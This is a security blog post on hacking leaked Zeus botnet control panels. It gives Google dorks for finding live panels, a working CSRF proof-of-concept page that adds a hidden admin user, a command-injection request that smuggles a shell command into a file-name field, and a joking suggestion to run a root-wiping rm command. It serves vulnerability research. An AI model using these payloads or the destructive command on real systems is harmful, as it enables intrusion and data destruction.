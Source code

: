 ```yaml
---           
layout: post
title: Attacking financial malware botnet panels - Zeus
date: 2019-10-08 14:00:32 UTC
updated: 2019-10-08 14:00:32 UTC
comments: false
categories: botnet remote code execution Zeus
---
```

<div style="text-align: justify;">
I played with leaked financial malware recently. When I saw these panels are written in PHP, my first idea was to hack them. The results are the work of one evening, please don't expect a full pentest report with all vulns found :-)</div>
<div style="text-align: justify;">
<br /></div>
<div style="text-align: justify;">
The following report is based on Zeus 2.0.8.9, which is old, but I believe a lot of Zeus clones (and C&amp;C panels) depend on this code.</div>
<div style="text-align: justify;">
<br /></div>
<div style="text-align: justify;">
First things first, here are some Google dorks to find Zeus C&amp;C server panel related stuff:</div>
<div style="text-align: justify;">
</div>
<ul>
<li>inurl:cp.php?m=login - this should be the login to the control panel</li>
<li>inurl:_reports/files &nbsp;- in these folders you can find the stolen stuff, pretty funny if it gets indexed by Google</li>
<li>inurl:install/index.php - this should be deleted, but I think this is useless now.</li>
</ul>
<br />
<div class="separator" style="clear: both; text-align: center;">
<a href="http://2.bp.blogspot.com/-ziFRsPr5I-E/Uv1B22qfQvI/AAAAAAAABpE/fO_-MpMjHpw/s1600/Zeus1.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="166" src="https://2.bp.blogspot.com/-ziFRsPr5I-E/Uv1B22qfQvI/AAAAAAAABpE/fO_-MpMjHpw/s1600/Zeus1.png" width="400" /></a></div>
<br />
<h3>
Boring vulns found</h3>
<ul>
<li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Credentials_Transported_over_an_Encrypted_Channel_(OWASP-AT-001)">Clear text HTTP login</a> - you can sniff the login password via MiTM, or steal the session cookies</li>
<li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_password_policy_(OWASP-AT-008)">No password policy</a> - admins can set up really weak passwords</li>
<li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_lock_out_mechanism_(OWASP-AT-004)">No anti brute-force</a> - you can try to guess the admin's password. Default username is admin</li>
<li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Vulnerable_Remember_Password_(OWASP-AT-006)">Password autocomplete enabled</a> - boring</li>
<li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_cookies_attributes_(OWASP-SM-002)">Missing HttpOnly flag on session cookie</a> - it could be nice if I could find any XSS. I need more time to find one!</li>
<li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_CSRF_(OWASP-SM-005)">No CSRF protection</a> - except on the password change, where the old password is needed :-( boring</li>
</ul>
Update: You can use the CSRF to create a new user with admin privileges:<br />
<div>
<div>
<pre class="prettyprint linenums lang-html">&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
    &lt;pre&gt;
  This is a CSRF POC to create a new admin user in Zeus admin panels.
  Username: user_1392719246 Password: admin1
  You might change the URL from 127.0.0.1.
  Redirecting in a hidden iframe in &lt;span id="countdown"&gt;10&lt;/span&gt; seconds.  
&lt;/pre&gt;
&lt;iframe id="csrf-frame" name="csrf-frame" style="display: none;"&gt;&lt;/iframe&gt;
    &lt;form action="http://127.0.0.1/cp.php?m=sys_users&amp;amp;new" id="csrf-form" method="post" name="csrf-form" target="csrf-frame"&gt;
 &lt;input name="name" type="hidden" value="user_1392719246" /&gt; 
 &lt;input name="password" type="hidden" value="admin1" /&gt; 
 &lt;input name="status" type="hidden" value="1" /&gt; 
 &lt;input name="comment" type="hidden" value="PWND!" /&gt;
 &lt;input name="r_botnet_bots" type="hidden" value="1" /&gt; 
 &lt;input name="r_botnet_scripts" type="hidden" value="1" /&gt; 
 &lt;input name="r_botnet_scripts_edit" type="hidden" value="1" /&gt; 
 &lt;input name="r_edit_bots" type="hidden" value="1" /&gt; 
 &lt;input name="r_reports_db" type="hidden" value="1" /&gt; 
 &lt;input name="r_reports_db_edit" type="hidden" value="1" /&gt; 
 &lt;input name="r_reports_files" type="hidden" value="1" /&gt;
 &lt;input name="r_reports_files_edit" type="hidden" value="1" /&gt;
 &lt;input name="r_reports_jn" type="hidden" value="1" /&gt; 
 &lt;input name="r_stats_main" type="hidden" value="1" /&gt; 
 &lt;input name="r_stats_main_reset" type="hidden" value="1" /&gt; 
 &lt;input name="r_stats_os" type="hidden" value="1" /&gt; 
 &lt;input name="r_system_info" type="hidden" value="1" /&gt; 
 &lt;input name="r_system_options" type="hidden" value="1" /&gt;
 &lt;input name="r_system_user" type="hidden" value="1" /&gt; 
 &lt;input name="r_system_users" type="hidden" value="1" /&gt;
    &lt;/form&gt;
&lt;script type="text/javascript"&gt;
 window.onload=function(){ 
  var counter = 10;
  var interval = setInterval(function() {
   counter--;
   document.getElementById('countdown').innerHTML = counter;
   if (counter == 0) {
    redirect();
    clearInterval(interval);
   }
  }, 1000);
 };
    function redirect() {
  document.getElementById("csrf-form").submit();
    }
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
</pre>
<ul>
<li style="text-align: justify;">MD5 password - the passwords stored in MySQL are MD5 passwords. No <a href="http://www.unlimitednovelty.com/2012/03/dont-use-bcrypt.html">PBKDF2, bcrypt, scrypt, salt</a>, whatever. MD5.</li>
<li style="text-align: justify;"><a href="http://www.contextis.com/research/tools/clickjacking-tool/">ClickJacking</a> - really boring stuff</li>
<li style="text-align: justify;">Remember me (MD5 cookies) - a very bad idea. In this case, the remember me function is implemented in a way where the MD5 of the password and MD5 of the username is stored in a cookie. If I have XSS, I could get the MD5(password) as well.</li>
<li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OWASP-DV-005)">SQLi</a> - although concatenation is used instead of parameterized queries, and addslashes are used, the integers are always quoted. This means it can be hacked only in case of special encoding like&nbsp;GB/Big5, pretty unlikely.</li>
</ul>
<br />
<h3>
Whats good news (for the C&amp;C panel owners)</h3>
<br />
The following stuff looks good, at least some vulns were taken seriously:<br />
<ul>
<li>The system directory is protected with .htaccess deny from all.</li>
<li>gate.php - this is the "gate" between the bots and the server, this PHP is always exposed to the Internet. The execution of this PHP dies early if you don't know the key. But you can <a href="http://blog.threatexpert.com/2009/09/time-to-revisit-zeus-almighty.html">get the key</a> from the binary of this specific botnet (<a href="http://mnin.blogspot.be/2011/09/abstract-memory-analysis-zeus.html">another URL how to do this</a>). If you have the key, then you can fill the database with garbage, but that's all I can think of now.</li>
<li>Anti <a href="https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OWASP-DV-001)">XSS</a>: the following code is used almost everywhere</li>
<pre class="prettyprint lang-js">return htmlspecialchars(preg_replace('|[\x00-\x09\x0B\x0C\x0E-\x1F\x7F-\x9F]|u', ' ', $string), ENT_QUOTES, 'UTF-8');</pre>
My evil thought was to inject malicious bot_id, but it looks like it has been filtered everywhere. Sad panda.</ul>
<br />
<h3>
What's really bad news (for the C&amp;C panel owners)</h3>
<br />
And the best vuln I was able to find, <a href="https://www.owasp.org/index.php/Testing_for_Command_Injection_(OWASP-DV-013)">remote code execution</a>&nbsp;through command injection&nbsp;(happy panda), but only for authenticated users (sad panda).<br />
<br />
The vulnerable code is in system/fsarc.php:<br />
<br />
<div class="separator" style="clear: both; text-align: center;">
<a href="http://2.bp.blogspot.com/-rTp0eseKEl4/Uv1CrOI6HWI/AAAAAAAABpM/vh7o3EbmeT0/s1600/Zeus2.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="292" src="https://2.bp.blogspot.com/-rTp0eseKEl4/Uv1CrOI6HWI/AAAAAAAABpM/vh7o3EbmeT0/s1600/Zeus2.png" width="400" /></a></div>
<pre class="prettyprint lang-php">function fsarcCreate($archive, $files){
   ...
   $archive .= '.zip';
   $cli = 'zip -r -9 -q -S "'.$archive.'" "'.implode('" "', $files).'"';
   exec($cli, $e, $r);
}</pre>
<br />
The exploit could not be simpler: <br />
<pre class="prettyprint lang-html">POST /cp.php?m=reports_files&amp;path= HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

filesaction=1&amp;files%5B%5D=files"||ping%20-n%2010%20127.0.0.1
</pre>
because the zip utility was not found on my Windows box. You can try to replace || with &amp;&amp; when attacking Windows (don't forget to URL encode it!), or replace || with ; when attacking Linux. You can also link this vulnerability with the CSRF one, but it is unlikely you know both the control panel admin, and the control panel URLs. Or if this is the case, the admin should practice better OPSEC :)<br />
Recommendation: use <a href="http://www.php.net/manual/en/function.escapeshellcmd.php">escapeshellcmd</a>&nbsp;next time.<br />
<br />
Next time you find a vulnerable control panel with a weak password, just rm -rf --no-preserve-root / it ;-)<br />
<br />
That's all folks!<br />
Special greetz to Richard (XAMPP Apache service is running as SYSTEM ;-) )<br />
<br />
<b>Update:</b> Looks like the gate.php is worth to investigate if you know the RC4 key. <a href="http://cybercrime-tracker.net/zeus.php">You can upload a PHP shell :)</a></div>
</div>
